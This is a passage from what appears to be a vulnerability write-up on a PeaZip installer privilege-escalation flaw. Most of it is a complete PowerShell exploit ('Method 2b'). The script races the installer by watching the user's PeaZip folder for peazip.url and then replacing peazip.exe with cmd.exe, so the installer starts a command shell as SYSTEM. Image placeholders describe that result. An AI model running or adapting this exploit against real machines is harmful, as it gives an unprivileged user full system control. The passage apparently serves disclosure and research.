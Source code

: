 Lastly the malicious binary is executed by the installer as System:

![](cve2-walkthrough-b3.png)

Execution with code is seen below:

![](cve2-walkthrough-b4.png)

Exploit code for Method 2b:
```
[byte[]] $exeBytes = (Get-Content -Encoding Byte -Path C:\Windows\System32\cmd.exe) -split ' '
$dir = $null
$exe = "peazip.exe"
$dir = "C:\Users\nonroot\AppData\Local\PeaZip"
Remove-Item ($dir + "\peazip.url")
Write-Host "exe loaded, launch installer now."
while(1) {
    if (Test-Path ($dir + "\peazip.url")) {
        $exePath = $dir + "\" + $exe
        try {
            [System.IO.File]::WriteAllBytes($exePath, $exeBytes)
            $fileStream = [System.IO.File]::Open($exePath, "Open", "Read", "Read")
        
            Read-Host "Press return when done/if you get shell (to release file lock)."
        
            $fileStream.Close()
        } catch {
            Read-Host "Lost race condition."
        }
        return
    }
}
```
